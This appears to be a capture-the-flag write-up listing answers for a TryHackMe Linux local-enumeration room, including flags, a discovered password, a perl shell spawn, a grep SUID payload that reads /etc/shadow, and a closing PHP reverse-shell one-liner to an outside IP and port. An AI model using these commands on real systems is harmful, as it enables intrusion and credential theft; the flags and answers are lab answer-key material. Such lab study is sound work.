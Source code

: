 # TryHackMe Linux: Local Enumeration


> Saikat Karmakar | Aug 15 : 2021

---

## Task 2

1. How would you execute /bin/bash with perl? 
```
perl -e 'exec "/bin/bash"
```

## Task 3

1. Where can you usually find the id_rsa file? (User = user)
```
/home/user/.ssh/id_rsa
```
2. Is there an id_rsa file on the box? (yay/nay)
```
nay
```

## Task 4

1. How would you print machine hardware name only?
```
uname -m
```
2. Where can you find bash history?
```
~/.bash_history 
```
3. What's the flag?
```
thm{clear_the_history}
```

## Task 5

1. Can you read /etc/passwd on the box? (yay/nay)
```
nay
``` 

## Task 6

1.  What's the password you found?
```
THMSkidyPass
```
2. Did you find a flag?
```
thm{conf_file}
```

## Task 7

1. Which SUID binary has a way to escalate your privileges on the box?
```
grep 
```
2. What's the payload you can use to read /etc/shadow with this SUID?
```
grep '' /etc/shadow
```




php -r '$sock=fsockopen("10.4.23.120",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
